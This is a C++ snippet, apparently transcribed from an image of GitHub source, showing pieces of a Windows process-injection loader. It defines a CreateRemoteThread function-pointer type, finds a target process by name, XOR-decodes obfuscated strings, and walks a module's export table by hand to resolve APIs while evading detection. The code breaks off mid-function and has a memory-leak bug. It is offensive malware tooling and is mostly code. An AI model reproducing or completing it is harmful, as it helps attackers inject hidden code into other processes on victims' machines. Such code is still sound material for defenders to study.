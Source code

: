 ```cpp
typedef HANDLE(WINAPI* CRTType)(HANDLE hProcess, LPSECURITY_ATTRIBUTES  lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, DWORD lpThreadId);

DWORD GetProcessIdByName(const std::wstring& processName) {
	DWORD processIds[1024], bytesReturned;
	if (!EnumProcesses(processIds, sizeof(processIds), &bytesReturned)) {
		std::cerr << "Failed to enumerate processes. Error: " << GetLastError() << std::endl;
		return 0;
	}

	DWORD processCount = bytesReturned / sizeof(DWORD);

	for (DWORD i = 0; i < processCount; ++i) {
		if (processIds[i] == 0) continue;

		HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, processIds[i]);
		if (hProcess) {
			WCHAR processNameBuffer[MAX_PATH];
			if (GetModuleFileNameEx(hProcess, NULL, processNameBuffer, MAX_PATH)) {
				std::wstring currentProcessName(processNameBuffer);
				if (currentProcessName.find(processName) != std::wstring::npos) {
					CloseHandle(hProcess);
					return processIds[i];
				}
			}
			CloseHandle(hProcess);
		}
	}

	std::cerr << "Process not found." << std::endl;
	return 0;
}

void XOR(unsigned char* data, size_t data_len, const char* key, size_t key_len) {
    int j = 0;
    for (size_t i = 0; i < data_len; i++) {
        if (j == key_len) j = 0;
        data[i] = data[i] ^ key[j];
        j++;
    }
}
LPCSTR DAndP(unsigned char* encoded, size_t len, const char* key, size_t key_len) {
    char* decoded = new char[len + 1];
    memcpy(decoded, encoded, len);
    XOR(reinterpret_cast<unsigned char*>(decoded), len, key, key_len);
    decoded[len] = '\0';
    return decoded;
    delete[] decoded;
}

PVOID GetProcAddressKernel32(HMODULE hModule, LPCSTR lpProcName) {
    PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)hModule;
    PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + pDOSHeader->e_lfanew);
    PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule + pNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

    DWORD* pAddressOfFunctions = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfFunctions);
    DWORD* pAddressOfNames = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfNames);
    WORD* pAddressOfNameOrdinals = (WORD*)((BYTE*)hModule + pExportDirectory->AddressOfNameOrdinals);

```